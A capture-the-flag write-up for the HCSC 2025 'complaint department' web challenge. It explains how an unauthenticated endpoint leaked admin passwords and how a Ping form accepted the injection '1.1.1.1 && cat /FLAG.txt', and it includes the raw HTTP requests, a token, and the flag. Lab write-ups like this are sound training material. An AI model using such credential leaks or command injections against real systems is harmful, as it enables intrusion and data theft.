 # HCSC 2025 - The complaint department

## Description

Hey, welcome to the company where you'll be handling the constant problems of every IT worker.
Sounds bad already? Just wait, the cybersecurity is non existent here, the boss Xavier basically clicks on everything he sees without thinking about it.
Best of luck to you and make sure to join the company server!

* VPN connection is required for this challenge
* Brute forcing is not required to complete the challenge
* Make sure to join the server without it you can't complete the challenge
* Submit request to the bot with the preprended `<shard_url>` which is an int `<1-9>`

`10.10.1-9.10:42069`

**Flag format**: `hcsc25{<Flag>}`

*By incarrnati0n*

## Metadata

- Filename: -
- Tags: `access control`, `command injection`
- Points: 350
- Number of solvers: 36

## Solution

If we load the website, we have two options: `login` and `register`.

![Main page](media/main-page.png)

Let's try registering first and than login.

It works.

Now we have a `Blog` and a `Ping` menu.

![After login](media/login.png)

If we navigate to the `Blog` menu, we can see an interesting request in the background.

![/requestUsers request](media/requestUsers.png)

```
GET /requestUsers HTTP/1.1
Host: 10.10.1.10:42069
[...]

```

```
HTTP/1.1 200 OK
Access-Control-Allow-Headers: authorization, Access-Control-Allow-Headers, Origin,Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Allow-Methods: OPTIONS, GET
Access-Control-Allow-Origin: *
Content-Type: application/json
Date: Tue, 29 Apr 2025 15:16:19 GMT
Content-Length: 6318

[{"uuid":"53b8d21a-5316-4ed4-802b-c35369e9e9ef","username":"Admin","password":"BigKekPepega","isAdmin":true},{"uuid":"3fd1fd3a-018f-4e84-9aff-9d6521f87542","username":"Xavier","password":"HolyGullible","isAdmin":true},{
[...]
```

Furthermore, it is unauthenticated (does not have any cookies or special headers).

We can try to log in using the `Admin` credentials and the `Xavier` credentials.

The `Ping` funcionality is only available for the `Xavier` user.

![Ping menu](media/ping.png)

Here we can try a basic (and classic) command injection to get the flag: `1.1.1.1 && cat /FLAG.txt`

![Command injection](media/flag.png)

```
POST /handleExecuteCommand HTTP/1.1
Host: 10.10.1.10:42069
Content-Length: 38
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiM2ZkMWZkM2EtMDE4Zi00ZTg0LTlhZmYtOWQ2NTIxZjg3NTQyIiwidXNlcm5hbWUiOiJYYXZpZXIiLCJpc0FkbWluIjp0cnVlLCJleHAiOjE3NDY4MDgxNzl9.IIDvaEOL1ZNlm6kqLlbzFNN-BJX7DH4pCNfbbZToB0o
[...]

{"command":"1.1.1.1 && cat /FLAG.txt"}
```

```
HTTP/1.1 200 OK
[...]
Content-Length: 269

PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: seq=0 ttl=42 time=4.682 ms

--- 1.1.1.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 4.682/4.682/4.682 ms
FLAG = hcsc25{H3y_BoRrow1ng_1s_n0t_Ste4l1ng}
```

The flag is: `hcsc25{H3y_BoRrow1ng_1s_n0t_Ste4l1ng}`

Based on the description (it suggest some XSS attack) and the communication on Discord, this was not the intended solution (it should have been an XSS challenge). The `/requestUsers` endpoint was unintentionally exposed, so this was a broken challenge.